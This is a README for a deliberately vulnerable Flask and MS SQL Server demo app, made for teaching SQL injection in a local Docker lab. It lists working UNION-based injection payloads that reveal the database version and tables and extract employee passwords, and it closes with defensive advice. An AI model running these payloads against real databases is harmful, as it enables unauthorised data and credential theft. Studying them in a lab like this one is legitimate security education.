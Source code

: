 # Python MSSQLi Demo

Hi! This project is a very simple demo of the well known SQL Injection,
using Microsoft SQL Server as the database engine and Flask as the web
provider.

This solution is based on a website with a search form, which is directly
sent as part of a query to MS SQL.

![](assets/2022-10-27-17-57-26.png)

The database contains two tables: one with the articles, which can be viewed
by clicking the search button, and another table called Employees, which
contains the "secrets" that we want to target in our attacks.

The search field receives words and include them in a `SELECT` statement,
returning the corresponding articles.

![](assets/2022-10-27-17-58-15.png)

## 1. Setup

In order to facilitate the execution, the project has been built using Docker Compose.
Ensure it is up and working on your machine before proceeding.

[![demo](https://asciinema.org/a/ERX9dSQV6y0t9zO0kRPFrySi6.svg)](https://asciinema.org/a/ERX9dSQV6y0t9zO0kRPFrySi6?autoplay=1)

I am using a Linux Machine (Ubuntu 20.04), but you can use your preferred system, it
should work with no major problems.

- [Setup on Linux](https://docs.docker.com/engine/install/ubuntu/)
- [Setup on Windows](https://docs.docker.com/desktop/install/windows-install/)
- [Setup on Mac OS](https://docs.docker.com/desktop/install/mac-install/)

Download the project from the ZIP file provided by Github or clone the project
using the git URL. Then, enter the directory and start the services using
Docker Compose. The first boot will take longer because Docker will download
and build the container images. You can check the messages in the terminal.

```shell
$ git clone https://github.com/wesleyit/python_mssqli.git
$ cd python_mssqli
$ docker compose up
```

[![demo](https://asciinema.org/a/M7BnEKZHeBzJcWlK7SB3mbEFR.svg)](https://asciinema.org/a/M7BnEKZHeBzJcWlK7SB3mbEFR?autoplay=1)

[![demo](https://asciinema.org/a/7vWIq6Bw41QdqvcCmgfd20Qho.svg)](https://asciinema.org/a/7vWIq6Bw41QdqvcCmgfd20Qho?autoplay=1)

If everything works fine the site will be available at your `http://your_ip:8080`.

## 2. Attacking

First, we will use a simple browser session to manually attack the server.

### 2.1 Discovering which character triggers the injection

The most common chars are single
and double quotes (\' and \"). Try variations. When the right char is inserted, the page will
break, as the query will be incomplete.

![](assets/discover_char.gif)

### 2.2 Discovering if the attack is reflected on the page, and how many fields are accepted

Try as many parameter as necessary to understand how many parameters the page is expecting.

![](assets/discover_fields.gif)

### 2.3 Discovering the DB Engine, Current DB and available tables

What DB engine is this? Try commands to explore. Each platform has its own commands which can help to identify the DB.

Here we use zzzz' with `UNION` to make the page return only our query, as the parameter zzzz will not match to retults in the original query.

```
zzzz' UNION SELECT 'DB Engine Version:', @@version --

zzzz' UNION SELECT 'DB Name:', DB_NAME() --

zzzz' UNION SELECT TABLE_NAME, 'Available in DB ' + \
    TABLE_CATALOG FROM Secrets.INFORMATION_SCHEMA.TABLES --
```

![](assets/db_version.gif)

![](assets/db_name.gif)

![](assets/db_tables.gif)

### 2.4 Querying data from interesting tables

It is time to fetch data from other tables.

```
zzzz' UNION SELECT COLUMN_NAME, '' FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Employees' --

zzzz' UNION SELECT EmployeeName, EmployeePassword FROM Employees --
```

![](assets/table_cols.gif)

![](assets/get_passwords.gif)


## 3. Automation

There are tools for automating the attack, like OWASP Zed Attack Proxy and SQLMap.
This is SQLMap description found on their website:

> SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## 4. Protection

### Better coding

To avoid being vulnerable is better than protecting or remediating a vulnerable system. There are many frameworks for data handling which checks for SQLi. There are also patterns to deal with objects, mapping application objects to database objects, which reduce the amount of manual code necessary to create components and fetch data.

### WAF

A Web Application Firewall is a Layer 7 (application) firewall able to intercept the HTTP request, inspect the package's content, and then block or allow based on rules. Most WAFs are able to apply TOP-10 OWASP rulesets, which prevents SQLi and other known vulnerabilities.

### Endpoint

Tools analyzing the endpoint behavior can be useful to collect data and help during the analysis, in a modern XDR + SOAR approach.

### DB

There are also tools that monitors the DB instance and collect data about suspicious activity like the ones generated during an SQLi exploration.

## 5. Final Thoughts

The sooner you detect a problem, the less it will cost to fix.
Although it is a good practice to have tools for containing attackers,
like WAF, it is better to mitigate the vulnerabilities by designing
properly the program, thinking in security early, using Threat Modeling,
SAST, DAST, and other techniques that will end up producing a more
dependable software.
